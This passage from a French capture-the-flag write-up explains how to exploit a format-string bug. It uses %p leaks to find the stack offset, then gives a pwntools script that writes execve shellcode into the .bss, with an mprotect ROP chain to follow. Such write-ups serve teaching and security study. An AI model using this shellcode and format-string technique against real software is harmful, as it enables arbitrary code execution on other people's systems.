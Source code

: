 ```python
```

##### Ecriture du shellcode

Pour la suite de l'exploitation on va utiliser la fonction `fmtstr_payload` de pwntools qui permet de grandement faciliter l'exploitation des format strings. Nous avons juste à lui passer en paramètre l'offset telle que le début de payload se réfléchisse lui même sur la stack, et un dictionnaire de cette forme: `{'where':'what',}`. On peut déterminer facilement l'offset nécessaire comme ceci:

```txt
Que souhaitez-vous écrire ?
[Vous] : %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p

Au moment où vous vous apprêtiez à écrire : 0x7ffddbdbe4d0(nil)(nil)0x1b835f5(nil)0x70257025702570250x70257025702570250x70257025702570250x70257025702570250xa70257025(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)
Vous remarquez des traces d'une citation qui semble avoir été effacée.
Vous vous ravisez temporairement d'écrire sur le livre en attendant d'en savoir davantage.
```
On voit que le début de notre chaine de `%p` se trouve à l'offset 6 sur la stack!
Vu que le PIE n'est pas activé, l'adresse de la .bss ne change jamais, on aura donc pas besoin de leak l'adresse du binaire pour écrire notre shellcode. Pour que mprotect fonctionne, il faut que l'adresse que l'on va lui passer soit aligné sur la taille d'une page (`4096`):

```python
align_ptr = lambda addr: (addr + 4095) & ~4095
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
buffer_fmt_offset = 6

def write_payload(area, shellcode):
    www = dict()
    for i in range(0, len(shellcode), 8):
        chunk = u64(shellcode[i:i+8].ljust(8, b"\x00"))
        www[area + i] = chunk
    write_fmt(pwn.fmtstr_payload(buffer_fmt_offset, www))
...

# Writing shellcode on a .bss section's page, the `12` is added to avoid the badchar `\n` being present in the format string payload
bss = 0x004bc100
payload_page = align_ptr(bss)
payload_area = payload_page + 12

pwn.log.info(f"Writing shellcode @ {hex(payload_area)}")
write_payload(payload_area, shellcode)
```

##### Changement des droits de la .bss

Maintenant il faut utiliser mprotect pour que l'endroit où on vient de copier notre shellcode soit exécutable, on va créer une ROPchain à l'adresse de la sauvegarde RIP que l'on a eu grâce au leak. On va commencer par trouver les gadgets dont on a besoin pour cette ROP:
